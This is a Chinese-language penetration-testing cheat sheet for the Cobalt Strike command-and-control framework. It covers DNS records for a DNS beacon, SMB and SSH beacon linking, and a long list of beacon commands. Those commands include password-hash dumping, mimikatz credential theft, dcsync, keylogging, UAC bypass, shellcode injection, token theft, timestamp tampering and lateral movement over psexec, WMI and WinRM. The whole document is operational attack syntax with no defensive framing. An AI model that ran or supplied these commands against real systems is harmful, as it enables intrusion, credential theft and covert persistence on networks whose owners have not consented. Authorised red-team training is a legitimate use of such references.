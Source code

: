 ##### DNS Beacon
	编辑域的区域文件
	为 Cobalt Strike 系统创建 A 记录
	创建指向 Cobalt Strike 系统的 FQDN 的 NS 记录
	创建 DNS A 记录并将其指向您的 Cobalt Strike 团队服务器。使用 DNS NS 记录将多个域或子域委托给您的 Cobalt Strike 团队服务器的 A 记录。
	nslookup jibberish.beacon polling.campaigns.domain.com
	nslookup jibberish.beacon campaign.domain.com

	Digital Ocean 上的 DNS 示例：

	NS  example.com                     directs to 10.10.10.10.            86400
	NS  polling.campaigns.example.com   directs to campaigns.example.com.	3600
	A	campaigns.example.com           directs to 10.10.10.10	            3600 

	>systemctl disable systemd-resolved
	>systemctl stop systemd-resolved
	>rm /etc/resolv.conf
	>echo "nameserver 8.8.8.8" >  /etc/resolv.conf
	>echo "nameserver 8.8.4.4" >>  /etc/resolv.conf
	配置：

	主机：campaigns.domain.com
	beacon：polling.campaigns.domain.com

##### SMB Beacon
  	link [host] [pipename]
	connect [host] [port]
	unlink [host] [PID]
	jump [exec] [host] [pipe]
	错误代码
| Error Code | Meaning              | Description                                        |
|------------|----------------------|----------------------------------------------------|
| 2          | File Not Found       | There is no beacon for you to link to              |
| 5          | Access is denied     | Invalid credentials or you don't have permission   |
| 53         | Bad Netpath          | You have no trust relationship with the target system. It may or may not be a beacon there. |

##### SSH Beacon
  	部署一个 beacon
	beacon> help ssh
	Use: ssh [target:port] [user] [pass]
	Spawn an SSH client and attempt to login to the specified target

	beacon> help ssh-key
	Use: ssh [target:port] [user] [/path/to/key.pem]
	Spawn an SSH client and attempt to login to the specified target

	beacon的命令
	upload                    上传
	download                  下载
	socks                     启动 SOCKS4a
	sudo                      使用sudo执行命令
	rportfwd                  设置一个反向端口转发
	shell                     通过shell执行命令

	argue                     进程参数欺骗
	blockdlls                  阻止子进程加载非Microsoft DLL
	browserpivot              注入受害者浏览器进程
	bypassuac                绕过UAC提升权限
	cancel                    取消正在进行的下载
	cd                        切换目录
	checkin                   强制让被控端回连一次
	clear                     清除beacon内部的任务队列
	connect                   Connect to a Beacon peer over TCP
	covertvpn                 部署Covert VPN客户端
	cp                        复制文件
	dcsync                    从DC中提取密码哈希
	desktop                   远程桌面(VNC)
	dllinject                   反射DLL注入进程
	dllload                    使用LoadLibrary将DLL加载到进程中
	downloads                列出正在进行的文件下载
	drives                     列出目标盘符
	elevate                    使用exp
	execute                   在目标上执行程序(无输出)
	execute-assembly         在目标上内存中执行本地.NET程序  execute-assembly [/path/to/script.exe] [arguments]
	exit                       终止beacon会话
	getprivs                   Enable system privileges on current token
	getsystem                 尝试获取SYSTEM权限
	getuid                     获取用户ID
	hashdump                  转储密码哈希值
	help                       帮助
	inject                      在注入进程生成会话
	jobkill                     结束一个后台任务
	jobs                       列出后台任务
	kerberos_ccache_use       从ccache文件中导入票据应用于此会话
	kerberos_ticket_purge     清除当前会话的票据
	kerberos_ticket_use       Apply 从ticket文件中导入票据应用于此会话
	keylogger                 键盘记录
	kill                      结束进程
	link                      Connect to a Beacon peer over a named pipe
	logonpasswords            使用mimikatz转储凭据和哈希值
	ls                        列出文件
	make_token                创建令牌以传递凭据
	mimikatz                  运行mimikatz
	mkdir                     创建一个目录
	mode dns                  使用DNS A作为通信通道(仅限DNS beacon)
	mode dns-txt              使用DNS TXT作为通信通道(仅限D beacon)
	mode dns6                 使用DNS AAAA作为通信通道(仅限DNS beacon)
	mode http                 使用HTTP作为通信通道
	mv                        移动文件
	net                       net命令
	note                      备注       
	portscan                  进行端口扫描
	powerpick                 通过Unmanaged PowerShell执行命令
	powershell                通过powershell.exe执行命令
	powershell-import         导入powershell脚本 powershell-import [/path/to/script.ps1]
	ppid                      Set parent PID for spawned post-ex jobs
	ps                        显示进程列表
	psexec                    Use a service to spawn a session on a host
	psexec_psh                Use PowerShell to spawn a session on a host
	psinject                  在特定进程中执行PowerShell命令
	pth                       使用Mimikatz进行传递哈希
	pwd                       当前目录位置
	reg                       Query the registry
	rev2self                  恢复原始令牌
	rm                        删除文件或文件夹
	run                       在目标上执行程序(返回输出)
	runas                     以其他用户权限执行程序
	runasadmin                在高权限下执行程序
	runu                      Execute a program under another PID
	screenshot                屏幕截图
	setenv                    设置环境变量
	shinject                  将shellcode注入进程
	shspawn                   启动一个进程并将shellcode注入其中
	sleep                     设置睡眠延迟时间
	socks stop                停止SOCKS4
	spawn                     派生新的会话 
	spawnas                   Spawn a session as another user
	spawnto                   指明在派生会话时将shellcode注入到具体的进程
	spawnu                    选择一个临时的父进程，然后派生一个子进程，这个子进程同样可以用spawnto指定
	ssh                       使用ssh连接远程主机
	ssh-key                   使用密钥连接远程主机
	steal_token               从进程中窃取令牌
	timestomp                 将一个文件的时间戳应用到另一个文件
	unlink                    Disconnect from parent Beacon
	wdigest                   使用mimikatz转储明文凭据
	winrm                     使用WinRM横向渗透
	wmi                       使用WMI横向渗透
	执行命令，在beacon模式下键入shell+命令
![image](/assets/Pentest_Note/master/img/221.png)

	>sleep 0 交互模式，立刻执行命令
	注入DLL到某个进程
	>dllload [pid] [c:\path\to\file.dll] DLL需在目标上
	>kerberos_ticket_purge 清除票据
	>kerberos_ccache_use	[/path/to/file.ccache]  从ccache文件导入票据
	>kerberos_ticket_use [/path/to/file.ccache] 从ticket文件导入票据
	>kill pid 结束进程
	>timestomp [fileA]	[fileB] 修改文件时间戳
	>getuid	 获取当前用户
	>steal_token [pid] 窃取进程ID
	>rev2self 恢复原始令牌
	>powershell-import	[/path/to/local/script.ps1] 导入PS模块 
	>shinject [pid] <x86|x64> [/path/to/my.bin] 向进程注入shellcode
	>socks	port在指定端口开启代理
	>socks stop停止代理
	>rportfwd [bind port]	[forward host]	[forward port]开启端口转发